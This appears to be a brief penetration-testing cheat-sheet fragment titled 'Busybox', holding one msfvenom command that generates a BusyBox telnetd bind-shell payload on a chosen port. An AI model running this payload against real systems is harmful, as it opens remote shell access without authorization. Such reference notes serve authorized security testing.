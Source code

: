 # Busybox

## 01 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/unix/bind_busybox_telnetd lport=<PORT>
```